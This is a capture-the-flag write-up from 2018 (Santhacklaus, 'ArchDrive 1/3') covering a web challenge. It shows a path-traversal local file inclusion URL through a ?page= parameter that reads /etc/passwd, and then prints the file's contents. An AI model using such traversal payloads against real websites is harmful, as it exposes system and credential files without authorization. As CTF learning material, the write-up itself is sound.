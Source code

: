 ```yaml
---
weight: 4
title:  "[Santhacklaus 2018] - ArchDrive"
date: 2018-12-19T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: ""
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["santhacklaus", "pinkflood", "pentest", "web", "lfi", "sudo", "tar", "xxe"]
categories: ["Writeups"]

lightgallery: true
---
```


## ArchDrive 1/3

### Statement


![](/lib/images/writeups/2018_santhacklaus/archdrive/statement_archdrive1.png)


### State of the art

This comes with a really good looking website:


![](/lib/images/writeups/2018_santhacklaus/archdrive/archdrive1_1.png)


I notice a strange GET parameter when clicking on `Reset it`:

> https://archdrive.santhacklaus.xyz/?page=reset.php

### Basic local file inclusion

I tried to include `/etc/passwd` file:

> https://archdrive.santhacklaus.xyz/?page=../../../../../../../../../etc/passwd

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```